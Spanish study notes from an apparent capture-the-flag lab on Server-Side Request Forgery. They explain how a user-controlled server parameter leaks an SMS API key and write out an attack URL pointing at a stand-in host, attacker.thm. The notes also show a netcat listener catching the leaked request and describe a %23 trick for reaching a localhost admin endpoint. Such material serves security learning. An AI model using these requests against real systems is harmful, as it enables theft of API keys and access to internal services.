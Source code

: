 ```yaml
---
layout: apunte
title: "22. X. Server-Side Request Forgery (SSRF)"
---
```


Este tipo de vulnerabilidad ocurre cuando un atacante convence a la aplicación web de mandar las peticiones en su representación a destinaciones arbitrarias mientras tiene el control sobre los contenidos de la petición en sí misma. Las vulnerabilidades SSRF comúnmente se ocasionan donde nuestra aplicación web utiliza servicios de terceros.

Piensa, por ejemplo, en una aplicación web que usa una API externa para mandar notificaciones SMS a sus clientes. Por cada email, la app tiene que realizar una petición web al servidor proveedor de SMS para mandar el mensaje.Ya que los proveedores de mensajería cobran por el uso de mensajes, nos piden añadir una clave secreta, que te preasignan. Los servidores API de claves como tokens de autentificación te permiten que el proveedor sepa quién eres.

!**Pasted image 20251013232653.png**

Mirando el diagrama arriba mostrado es fácil ver dónde está la vulnerabilidad. La aplicación expone el parámetro `server` a los usuarios, que define el nombre del servidor proveedor de SMS. Si un atacante quisiese, simplemente cambiaría el valor del parámetro `server` para apuntar a una máquina que ellos controlen. Como parte del mensaje, recibirían la clave API, permitiéndoles usar los servicios SMS a tu costa. Para hacerlo, sólo tendría que hace la siguiente petición a tu sitio web:

`https://www.mysite.com/sms?server=attacker.thm&msg=ABC`

Entonces simplemente capturarías el tráfico:

```http
user@attackbox$ nc -lvp 80
Listening on 0.0.0.0 80
Connection received on 10.10.1.236 43830
GET /:8087/public-docs/123.pdf HTTP/1.1
Host: 10.10.10.11
User-Agent: PycURL/7.45.1 libcurl/7.83.1 OpenSSL/1.1.1q zlib/1.2.12 brotli/1.0.9 nghttp2/1.47.0
Accept: */*
```

Aunque esto no parezca amenazante, SSRF se puede usar para:

- Enumerar redes internas, incluyendo direcciones IPs y puertos.
- Abusar relaciones de confianza entre servidores y ganar acceso a servicios de otra manera restringidos.
- Interactuar con algunos servicios no-HTTP para conseguir ejecución remota de comandos (RCE).

-----------------------
<h2>Challenge</h2>
1. Accedemos a la página web:
   !**Pasted image 20251013233709.png**
2. Después de investigar un poco encontramos "admin area":
   !**Pasted image 20251013233831.png**
3. Si nos fijamos, el servidor apunta a una dirección curiosa al descargar el CV:
   !**Pasted image 20251013234005.png**
4. Haciendo uso de lo que hemos aprendido, vamos a intentar SSRF:
   !**Pasted image 20251013234205.png**
5. Y voilà:
   !**Pasted image 20251013234231.png**
6. Para acceder a admin podemos modificar url de la descarga del CV y meter localhost con el endpoint `admin`:
   !**Pasted image 20251014000016.png**
7. La flag extra es:
   !**Pasted image 20251014000039.png**

>[!NOTE] The `#` symbol indicates a fragment identifier in a URL, which is often used by browsers to navigate to a specific part of a webpage. When you add `%23` (the URL-encoded version of `#`), it may be tricking the server into treating it as part of the URL, allowing the request to reach the `/admin` endpoint. Without it, the server might not recognize the path correctly or could return a different response.

